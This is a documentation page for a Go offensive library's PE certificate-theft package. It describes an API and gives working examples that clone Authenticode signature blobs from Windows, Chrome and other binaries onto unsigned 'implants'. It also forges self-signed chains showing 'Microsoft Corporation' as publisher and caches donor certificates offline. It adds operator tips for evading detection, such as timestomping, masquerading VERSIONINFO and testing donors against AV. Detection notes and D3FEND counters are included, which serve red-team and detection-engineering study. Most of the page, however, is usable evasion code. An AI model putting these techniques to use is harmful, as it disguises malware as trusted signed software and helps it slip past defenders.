

# PE Certificate Theft

[← pe index](README.md) · [docs/index](../../index.md)

## TL;DR

Lift the Authenticode certificate blob from a legitimately signed
PE (Microsoft binary, vendor driver, etc.) and append it to an
unsigned implant — patching the security directory in place. The
signature won't verify cryptographically but many naive scanners
only check for certificate *presence*, not *validity*.

## Primer

Windows uses Authenticode signatures to verify executable
provenance. The cryptographic check is two-part: presence of a
certificate blob in the PE security directory, and validation of
that blob against a trusted root CA. A surprising number of
defensive tools — naive AV, file-property dialogs, allowlists
keyed on "is signed?" — only check the first part. Cloning a
known-good cert blob onto an unsigned implant clears those naive
checks while still failing `signtool verify`.

The package is **cross-platform**: cert blobs are pure-byte PE
manipulation, no Win32 APIs involved. Use it on a Linux build
host to prepare implants without round-tripping through
`signtool.exe`.

## How It Works



The PE security directory (data directory index 4) is unique:
its `VirtualAddress` field is a **file offset**, not an RVA.
WIN_CERTIFICATE structures are appended after the last section,
8-byte aligned. `Read` parses the directory entry and returns
the raw blob; `Write` truncates / appends + patches.

## API Reference

### `type Certificate struct { Raw []byte }`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#Certificate)

Holds the raw `WIN_CERTIFICATE` byte stream extracted from a
signed PE — header(s) plus the embedded PKCS#7 signature blob.
Travels as a single value between `Read`, `Write`, `Import`,
`Export`.

**Side effects:** none.

**Platform:** cross-platform.

### `var ErrNoCertificate`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#ErrNoCertificate)

Returned by `Read` when the security directory entry is zero
(unsigned PE). Pair with `errors.Is`.

### `var ErrInvalidPE`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#ErrInvalidPE)

Returned for malformed or non-PE inputs.

### `Has(pePath string) (bool, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#Has)

Cheapest probe — true when the security directory entry is
non-zero. Does not parse the cert blob.

**Parameters:** `pePath` — PE on disk.

**Returns:** presence flag; error from file read or PE walk.

**Side effects:** reads `pePath`.

**OPSEC:** silent file read.

**Platform:** cross-platform.

### `Read(pePath string) (*Certificate, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#Read)

Parse the security directory and return the embedded cert.

**Parameters:** `pePath` — signed PE.

**Returns:** `*Certificate` with `Raw` populated; `ErrNoCertificate`
when the PE is unsigned.

**Side effects:** reads `pePath`.

**Platform:** cross-platform.

### `Write(pePath string, c *Certificate) error`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#Write)

Append `c.Raw` to the PE, 8-byte align, patch the security
directory entry in place. Calls `PatchPECheckSum` post-splice.

**Parameters:** `pePath` — target PE (rewritten in place);
`c` — cert blob to graft.

**Returns:** error from file I/O, PE walk, or checksum recompute.

**Side effects:** truncates + appends bytes; rewrites the optional-header
`CheckSum` and the security data-directory entry.

**OPSEC:** modifies file size + last-write timestamp. Pair with
[`cleanup/timestomp`](../cleanup/) to mask the change.

**Required privileges:** write on `pePath`.

**Platform:** cross-platform.

### `WriteVia(creator stealthopen.Creator, pePath string, c *Certificate) error`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#WriteVia)

Same byte output as `Write`, but routes the destination open
through a [`stealthopen.Creator`](../evasion/stealthopen.md) — TxF,
ADS, encrypted streams, or any other operator-controlled write
primitive. Pass nil to fall back to `os.Create`.

**Parameters:** `creator` — write primitive (nil → `os.Create`);
`pePath`, `c` as `Write`.

**Returns:** error from creator, file I/O, or checksum recompute.

**Side effects:** as `Write`, via the supplied primitive.

**OPSEC:** depends on the chosen Creator.

**Platform:** cross-platform.

### `Copy(srcPE, dstPE string) error`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#Copy)

`Read(srcPE)` + `Write(dstPE, …)` in one call — graft a donor's
cert onto an unsigned implant.

**Parameters:** `srcPE` — signed donor; `dstPE` — implant to
rewrite.

**Returns:** error from either step.

**Side effects:** reads `srcPE`; rewrites `dstPE`.

**OPSEC:** as `Write`.

**Required privileges:** read on `srcPE`, write on `dstPE`.

**Platform:** cross-platform.

### `Strip(pePath, dst string) error`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#Strip)

Zero the security directory entry and truncate the appended cert
bytes. When `dst` is non-empty, the removed bytes are written
there for later restoration.

**Parameters:** `pePath` — PE to strip; `dst` — optional backup
path (`""` discards the bytes).

**Returns:** error from file I/O or checksum recompute.

**Side effects:** truncates `pePath`; recomputes checksum;
optionally writes `dst`.

**Required privileges:** write on `pePath` (and `dst`).

**Platform:** cross-platform.

### `StripVia(creator stealthopen.Creator, pePath, dst string) error`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#StripVia)

`Strip` routed through a `stealthopen.Creator` for the truncate
and the `dst` write. Nil → `os.Create`.

**Side effects:** as `Strip`, via the supplied primitive.

**Platform:** cross-platform.

### `Import(path string) (*Certificate, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#Import)

Load a raw cert blob previously emitted by `Export` / `Strip`.

**Parameters:** `path` — file holding `WIN_CERTIFICATE` bytes.

**Returns:** `*Certificate`; error from file read.

**Side effects:** reads `path`.

**Platform:** cross-platform.

### `(*Certificate).Export(path string) error`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#Certificate.Export)

Persist `c.Raw` to disk so the blob travels between operations.

**Parameters:** `path` — destination file.

**Returns:** error from `os.WriteFile`.

**Side effects:** writes `path` (mode 0600).

**Platform:** cross-platform.

### `(*Certificate).ExportVia(creator stealthopen.Creator, path string) error`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#Certificate.ExportVia)

`Export` routed through a `stealthopen.Creator`. Nil → `os.Create`.

**Platform:** cross-platform.

### `PatchPECheckSum(data []byte) error`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#PatchPECheckSum)

Recompute `IMAGE_OPTIONAL_HEADER.CheckSum` using the MS
`ImageHlp!CheckSumMappedFile` algorithm (16-bit rolling-carry sum
plus file size, CheckSum field masked to zero). `Strip`, `Write`,
and `pe/dllproxy` (with `Options.PatchCheckSum`) call this
internally; exposed for ad-hoc PE surgery outside the cert
package.

**Parameters:** `data` — full PE image, mutated in place.

**Returns:** error from PE walk (no optional header, etc.).

**Side effects:** writes 4 bytes at the optional-header CheckSum
offset.

**Platform:** cross-platform.

### `PEChecksumOffset(data []byte) (int, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#PEChecksumOffset)

Return the file offset of the `CheckSum` field for callers that
want to read or surgically patch it without a full recompute.

**Parameters:** `data` — PE image.

**Returns:** offset; error on malformed input.

**Platform:** cross-platform.

### `Forge(opts ForgeOptions) (*ForgedChain, error)` + `type ForgeOptions struct` + `type ForgedChain struct`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#Forge)

Generate a self-signed cert chain (Leaf → optional Intermediate
→ self-signed Root) entirely in pure Go and wrap the leaf
signature into a PKCS#7 SignedData blob inside a
WIN_CERTIFICATE structure ready for [`Write`](#writepepath-string-c-certificate-error).

```go
type ForgeOptions struct {
    LeafSubject         pkix.Name // required — publisher name shown in file properties
    IntermediateSubject pkix.Name // empty → 2-tier (leaf + root)
    RootSubject         pkix.Name // required — self-signed root
    KeyBits             int       // default 2048
    ValidFrom, ValidTo  time.Time // default [now-1y, now+5y]
    Content             []byte    // signed content; empty is fine for the cosmetic case
}

type ForgedChain struct {
    Certificate                   *Certificate    // ready for cert.Write
    Leaf, Intermediate, Root      *x509.Certificate
    LeafKey, IntermediateKey, RootKey *rsa.PrivateKey
}
```

**What it gives:**
- File-properties Details tab shows `LeafSubject.CommonName` as
  "Publisher" — fools naive UI-based assessment.
- Static scanners that check "does this PE have a SignedData
  directory entry" without validating it accept the file.
- `signtool dumpcerts` output surfaces the chain — useful for
  false-flag attribution research in red-team exercises.

**What it does NOT give:**
- Real Authenticode validity. `signtool verify` rejects the
  output, SmartScreen flags it, and any defender that hashes
  the PE bytes and re-checks against the signed `SpcIndirectDataContent`
  fails. The forged SignedData here doesn't carry a
  Microsoft-OID `SpcIndirectDataContent` over the PE hash —
  out of scope for the current minimum-viable forge.
- Trust-store insertion. The root cert is self-signed and not
  installed in any trust store; offline scanners that walk to
  the root see an unknown CA.

**Returns:** `*ForgedChain` (Certificate ready for Write +
all per-cert + per-key artefacts) or `ErrInvalidForgeOptions`
when LeafSubject or RootSubject is missing; wrapped errors for
keygen / cert-build / SignedData failures.

**Side effects:** none — pure compute.

**OPSEC:** zero runtime cost (call from build pipeline). The
written PE carries the forged chain forever — defenders with
post-hoc Authenticode validation catch it.

**Required privileges:** unprivileged.

**Platform:** cross-platform — pure Go.

### `var ErrInvalidForgeOptions`

Sentinel returned by [`Forge`](#forgeopts-forgeoptions-forgedchain-error)
when LeafSubject or RootSubject CommonName is empty. Use
`errors.Is` to route on the validation failure.

### `BuildSpcIndirectDataContent(digest []byte, hashAlg crypto.Hash) ([]byte, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#BuildSpcIndirectDataContent)

Phase 1 of the path to real Authenticode signatures. Returns the
ASN.1 DER encoding of the canonical Microsoft signed-content blob:

```
SpcIndirectDataContent ::= SEQUENCE {
    data           SpcAttributeTypeAndOptionalValue,
    messageDigest  DigestInfo
}
```

`digest` is the PE Authenticode hash (typically obtained via
`pe/parse.File.Authentihash`); `hashAlg` selects the algorithm
OID. Returns `ErrUnsupportedHash` for anything outside the four
supported variants (SHA-1 / SHA-256 / SHA-384 / SHA-512).

The output is the SECOND argument to a PKCS#7 SignedData
`EncapsulatedContentInfo` whose `eContentType` is
`OIDSpcIndirectDataContent`. Wrapping the bytes into a complete
PKCS#7 SignedData with the correct outer ContentType is **Phase 2
(not yet shipped)** — the bundled `secDre4mer/pkcs7` always sets
`ContentType = OIDData`, so a future `ForgeForPE(pePath, opts)`
entry point will need a sibling ASN.1 marshaller.

Even without Phase 2, the bytes returned here are useful as a
verifier-input fixture: feed them to a captured cert's
`messageDigest` signed attribute via openssl / signtool to
reproduce the canonical signing input — handy for
detection-engineering test corpora.

**Returns:** ASN.1 DER bytes; `ErrUnsupportedHash` for
unsupported `hashAlg`; wrapped asn1-marshal errors otherwise.

**Side effects:** none — pure compute.

**OPSEC:** N/A — pure-byte producer.

**Required privileges:** unprivileged.

**Platform:** cross-platform — pure Go.

### Authenticode OID constants

`OIDSpcIndirectDataContent` (`1.3.6.1.4.1.311.2.1.4`),
`OIDSpcPEImageDataObj` (`1.3.6.1.4.1.311.2.1.15`),
`OIDSHA1` / `OIDSHA256` / `OIDSHA384` / `OIDSHA512` exposed
verbatim from the Microsoft / RFC 5754 catalogues. Use these
when hand-rolling SignedData wrappers around the
`BuildSpcIndirectDataContent` output.

### `var ErrUnsupportedHash`

Sentinel returned by `BuildSpcIndirectDataContent` when the
supplied `crypto.Hash` has no Authenticode OID. Use `errors.Is`
to route on the validation failure.

## Examples

### Simple — copy a Microsoft cert onto an implant

```go
import "github.com/oioio-space/maldev/pe/cert"

if err := cert.Copy(
    `C:\Windows\System32\notepad.exe`,
    `C:\Users\Public\implant.exe`,
); err != nil {
    panic(err)
}
```

### Composed — pure-Go forge + write

```go
import (
    "crypto/x509/pkix"

    "github.com/oioio-space/maldev/pe/cert"
)

// One-shot forge: 3-tier chain (leaf → intermediate → self-signed
// root) with Microsoft-style subject names so the file-properties
// dialog reads as legitimate.
chain, err := cert.Forge(cert.ForgeOptions{
    LeafSubject: pkix.Name{
        CommonName:   "Microsoft Corporation",
        Organization: []string{"Microsoft Corporation"},
        Country:      []string{"US"},
    },
    IntermediateSubject: pkix.Name{
        CommonName: "Microsoft Code Signing PCA 2024",
    },
    RootSubject: pkix.Name{
        CommonName: "Microsoft Root Certificate Authority 2024",
    },
})
if err != nil { panic(err) }

if err := cert.Write(`C:\loader.exe`, chain.Certificate); err != nil {
    panic(err)
}
// loader.exe now reports "Publisher: Microsoft Corporation" in
// the Properties dialog. signtool verify rejects it; SmartScreen
// flags it. See API Reference > Forge > "What it does NOT give".
```

### Composed — Authenticode-shaped signing input (Phase 1 building block)

```go
import (
    "crypto"

    "github.com/oioio-space/maldev/pe/cert"
    "github.com/oioio-space/maldev/pe/parse"
)

// Step 1: Compute the PE's canonical Authenticode hash.
pf, err := parse.Open(`C:\loader.exe`)
if err != nil { panic(err) }
defer pf.Close()
hash := pf.Authentihash() // SHA-256 by default

// Step 2: Wrap the hash in the Microsoft signed-content blob.
//         This is the byte string a real Authenticode signer
//         signs (over the messageDigest signed attribute).
spc, err := cert.BuildSpcIndirectDataContent(hash, crypto.SHA256)
if err != nil { panic(err) }

// `spc` now holds the canonical SpcIndirectDataContent ASN.1.
// Phase 2 (not yet shipped): hand-roll a SignedData with
// ContentType = OIDSpcIndirectDataContent + EncapContent = spc,
// then sign the messageDigest signed attribute with a leaf key
// (Forge's chain.LeafKey works syntactically; signtool verify
// fails because the chain isn't trusted).
//
// Today, `spc` is useful as a verifier-input fixture: feed it to
// openssl / signtool's signing pipeline to reproduce what a
// signing host would compute against this PE.
_ = spc
```

### Composed — morph + cert + presence check

Layer with `pe/morph` so the static fingerprint is altered before
the cert is grafted on.

```go
import (
    "os"

    "github.com/oioio-space/maldev/pe/cert"
    "github.com/oioio-space/maldev/pe/morph"
)

raw, _ := os.ReadFile(`C:\loader.exe`)
raw, _ = morph.UPXMorph(raw)
_ = os.WriteFile(`C:\loader.exe`, raw, 0o644)

_ = cert.Copy(`C:\Windows\System32\notepad.exe`, `C:\loader.exe`)
ok, _ := cert.Has(`C:\loader.exe`) // true
```

### Advanced — round-trip donor selection

Cache the existing cert, try multiple donors, restore on burn.

```go
import (
    "os"

    "github.com/oioio-space/maldev/pe/cert"
)

target := `C:\loader.exe`
_ = cert.Strip(target, `C:\old.cert`)

candidates := []string{
    `C:\Windows\System32\notepad.exe`,
    `C:\Program Files\Google\Chrome\Application\chrome.exe`,
    `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`,
}
for _, donor := range candidates {
    _ = cert.Copy(donor, target)
    // run target through the AV under test, observe verdict, decide
}

// Restore original if every candidate burned.
saved, _ := os.ReadFile(`C:\old.cert`)
_ = cert.Write(target, &cert.Certificate{Raw: saved})
```

See [`ExampleRead`](../../../pe/cert/cert_example_test.go) and
[`ExampleCopy`](../../../pe/cert/cert_example_test.go).

### Operational — `cmd/cert-snapshot` (offline donor cache)

Operators rarely build implants on the same host that has every
donor PE installed (Adobe Reader, OneDrive, VS Code, etc.). The
`cmd/cert-snapshot` tool walks the canonical donor list
([`pe/masquerade/donors.All`](https://pkg.go.dev/github.com/oioio-space/maldev/pe/masquerade/donors))
and dumps each donor's WIN_CERTIFICATE blob to a directory once,
so the build host can graft offline:

```bash
# On a fully-equipped workstation:
go run ./cmd/cert-snapshot -out ./ignore/certs
# wrote ignore/certs/svchost.bin (10408 bytes) <- C:\WINDOWS\System32\svchost.exe
# wrote ignore/certs/msedge.bin (10056 bytes) <- ...msedge.exe
# wrote ignore/certs/onedrive.bin (10600 bytes) <- ...OneDrive.exe
# wrote ignore/certs/acrobat.bin (10712 bytes) <- ...Acrobat.exe
# wrote ignore/certs/firefox.bin (11904 bytes) <- ...firefox.exe
# wrote ignore/certs/excel.bin  (21312 bytes) <- ...EXCEL.EXE
# wrote ignore/certs/vscode.bin (10272 bytes) <- ...Code.exe
# wrote ignore/certs/claude.bin (10400 bytes) <- ...claude.exe
# SKIP cmd: PE file has no Authenticode certificate     # signed via system catalog (.cat)
# SKIP notepad: PE file has no Authenticode certificate # signed via system catalog (.cat)
# SKIP sevenzip: PE file has no Authenticode certificate # 7-Zip ships unsigned
```

`-out` defaults to `./ignore/certs` (gitignored — these blobs
are large binaries that don't belong in version control).

On the build host, graft from cache without needing the donor:

```go
import (
    "os"

    "github.com/oioio-space/maldev/pe/cert"
)

raw, _ := os.ReadFile(`./ignore/certs/claude.bin`)
_ = cert.Write(`implant.exe`, &cert.Certificate{Raw: raw})
```

The grafted blob is **not cryptographically valid** (the implant's
PE hash differs from the donor's) — same caveats as direct
[`cert.Copy`](#copysrcpe-dstpe-string-error). Useful only for
the cosmetic + naive-static-scanner cases described in OPSEC.

**System32 binaries that ship without an embedded signature**
(cmd, notepad, calc on most Win10/11 builds) are signed via the
system *security catalog* (`C:\Windows\System32\CatRoot\*.cat`) —
the embedded WIN_CERTIFICATE is absent because `signtool verify`
resolves the signature against the catalog. cert-snapshot's
SKIP for these donors is expected, not a bug. To clone a System32
identity's catalog signature you need a different attack — out of
scope for `pe/cert`.

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| `signtool verify /pa <implant.exe>` failure | Any defender that actually validates signatures sees a chain failure |
| Modified file size + 8-byte alignment padding | EDR file-write telemetry; unusual delta-from-known-good if the signed donor was hashed earlier |
| Cert subject / issuer mismatched against the implant's metadata (CompanyName, OriginalFilename) | Mature allowlists cross-check signer identity vs `VERSIONINFO` |
| Naive `Get-AuthenticodeSignature` checking only `.Status -eq 'Valid'` | False-negative on the modified cert; common in homebrew scripts |

**D3FEND counters:**

- [D3-EAL](https://d3fend.mitre.org/technique/d3f:ExecutableAllowlisting/)
  — strict allowlisting validates the chain.
- [D3-SEA](https://d3fend.mitre.org/technique/d3f:StaticExecutableAnalysis/)
  — cert-blob inspection on submission.

**Hardening for the operator:**

- Pair with [`pe/masquerade`](masquerade.md) so the
  VERSIONINFO / manifest matches the donor cert's identity.
- Use a donor whose subject matches the *implant's apparent
  purpose* (PowerShell signer for a `pwsh.exe` lookalike, etc.).
- Recompute the PE checksum if downstream tooling validates it.
- Don't deploy where signature chain validation is enforced
  (Defender ATP, SmartScreen, AppLocker with publisher rules).

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1553.002](https://attack.mitre.org/techniques/T1553/002/) | Subvert Trust Controls: Code Signing | full — clone a third-party signature blob | D3-EAL, D3-SEA |

## Limitations

- **Signature won't verify.** Cryptographic chain validation
  (`signtool verify`, SmartScreen, AppLocker publisher rules)
  catches the substitution.
- **Checksum recomputation handled internally.** `Strip` and `Write`
  both call [`PatchPECheckSum`](https://pkg.go.dev/github.com/oioio-space/maldev/pe/cert#PatchPECheckSum)
  after the splice — the optional-header `CheckSum` is rebuilt with
  the MS `ImageHlp!CheckSumMappedFile` algorithm so downstream
  verifiers that check it (rare in user-mode, mandatory for kernel
  drivers) see a self-consistent value. Independent callers can
  invoke `PatchPECheckSum(data)` directly after their own splices.
- **`Forge` produces a chain that fails validation.** Pure-Go
  `Forge` builds a 2- or 3-tier self-signed chain wrapped in
  PKCS#7 SignedData — sufficient to populate the file-properties
  Publisher field and pass "is signed" presence checks, but
  signtool verify rejects + SmartScreen flags + trust-store walk
  sees an unknown root. Two independent gaps separate Forge from
  real Authenticode:
   1. The signed content is not a real `SpcIndirectDataContent`
      over the PE hash. **Phase 1 of the fix shipped at v0.43.0**:
      `BuildSpcIndirectDataContent(digest, hashAlg)` produces the
      canonical ASN.1 blob; pair with
      `pe/parse.File.Authentihash` for the digest. **Phase 2 (not
      yet shipped)**: a `ForgeForPE(pePath, opts)` entry point
      that hand-rolls the outer SignedData with
      `ContentInfo.contentType = OIDSpcIndirectDataContent` —
      `secDre4mer/pkcs7` doesn't expose an OID-override surface,
      so this needs a sibling ASN.1 marshaller.
   2. The leaf key + chain are self-signed. Real validity needs
      a CA-trusted leaf key (stolen private key, purchased EV
      cert) — entirely out of scope; no library substitute.
- **Validity-window mismatch.** Donor certs have NotBefore /
  NotAfter; an implant deployed outside that window flags as
  expired even before the chain is checked.

## See also

- [PE masquerade](masquerade.md) — clone the donor's manifest +
  VERSIONINFO + icon to match the cert subject.
- [PE strip / sanitize](strip-sanitize.md) — pair to scrub
  Go-toolchain markers before/after the cert graft.
- [Operator path](../../by-role/operator.md).
- [Detection eng path](../../by-role/detection-eng.md).
